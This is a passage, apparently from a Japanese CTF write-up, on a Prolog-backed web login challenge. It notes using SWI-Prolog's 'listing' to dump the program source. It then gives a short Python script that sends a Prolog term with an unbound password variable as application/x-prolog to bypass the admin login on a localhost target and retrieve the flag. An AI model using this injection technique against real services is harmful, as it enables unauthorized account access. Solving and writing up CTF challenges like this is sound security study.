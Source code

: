 関数名に`listing`を指定すると、プログラムとpretty print句を一覧表示できるため、それを使う方法もあるようです。
<https://www.swi-prolog.org/pldoc/man?section=listing>

- 別解

Content-typeを`application/x-prolog`にした解法もあるようです。

```py
#!/usr/bin/env python3
import requests

URL = "http://localhost:8888"

s = requests.session()
r = s.post(
  f"{URL}/login",
  data="[username=admin, password=A].",
  headers={
      "Content-type": "application/x-prolog"
  })
r = s.get(f"{URL}/flag")
print(r.text)
```
